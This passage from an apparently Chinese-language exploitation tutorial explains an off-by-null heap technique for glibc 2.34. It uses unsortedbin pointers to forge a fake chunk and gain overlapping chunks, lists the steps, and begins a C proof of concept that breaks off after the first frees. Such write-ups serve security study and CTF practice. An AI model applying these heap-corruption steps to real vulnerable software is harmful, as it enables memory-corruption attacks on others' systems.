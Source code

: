 若无法泄露堆地址，大致有两种方法，一是通过`largebin`的特性（`fd_nextsize`和`bk_nextsize`，一般需要爆破），二是通过`unsortedbin`的特性（`fd`指针和`bk`指针，一般不需要爆破）。

由于整体上该利用方式较为复杂，限于篇幅原因，本文仅给出一个`glibc2.34`下较为通用的使用`unsortedbin`来进行`off by null`利用的`POC`，无需爆破，有兴趣的师傅们可以进行参考。

最开始的堆块构造如下：

```c
|  gap1  |
|  FD    |
|  gap2  |
| chunk1 |
| chunk2 | assert( chunk2 | 0x00 = 0)
| victim | (gap3)
|  BK1   |
|  BK2   |
|  gap4  |
```

大致利用方式如下：

- 先后释放`FD`、`chunk2`、`BK2`，在`chunk2`中踩出`fd`和`bk`指针
- 释放`chunk1`，使得`chunk1`和`chunk2`合并并重新分配二者的`size`，让`chunk1`包含之前`chunk2`的`size`和`fd`及`bk`
- 之前的`chunk2`现在称为`fake chunk`。修改`fake chunk`的`size`，恢复`FD`和`BK`
- 先后释放`FD`和`chunk2`到`unsortedbin`，使得`FD's bk = chunk2`。部分修改`FD`的`bk`，使得`FD's bk = fake chunk`
- 恢复`FD`和`chunk2`，现在`fake_chunk -> fd -> bk == fake_chunk`
- 先后释放`chunk2`和`BK2`并释放`BK1`。重新分配合并的`BK`，使得可以部分修改原本`BK2`的`fd`，使得`BK's fd = fake chunk`
- 恢复`BK`和`chunk2`，现在满足`fake_chunk -> bk -> fd == fake_chunk`
- 释放`victim(gap3)`并重新申请回来，写`BK1`的`prev_size`和`prev_inuse`
- 释放`BK1`，导致`fake chunk`、`victim`、`BK1`合并，获得重叠指针

### POC(glibc 2.34)

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

void init(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}

// 基于glibc2.34
// 本POC旨在展示一种更为通用的情况，即回车不会被替换为\x00，这意味着至少倒数第二字节会被覆盖为\x00
int main(){
    init();
    // 先构造堆块如下，注意需要让利用堆块2的地址对齐0x100。
    // 例如在glibc2.34下，tcache_perthread_struct的大小为0x100，利用堆块2的地址刚好为0x??c00
    size_t* gap1 = malloc(0x10); // gap1
    size_t* FD = malloc(0x420); // FD
    size_t* gap2 = malloc(0x90); // gap2
    size_t* chunk1 = malloc(0x470); // 利用堆块1
    size_t* chunk2 = malloc(0x470); // 利用堆块2
    size_t* gap3 = malloc(0x10); // gap3 (victim)
    size_t* BK1 = malloc(0x410); // BK1
    size_t* BK2 = malloc(0x410); // BK2
    size_t* gap4 = malloc(0x10); // gap4

    // 第一步：先后释放FD、利用堆块2、BK到unsortedbin
    // 目的是在利用堆块2中踩出fd和bk指针
    free(FD);
    free(chunk2);
    free(BK2);

```
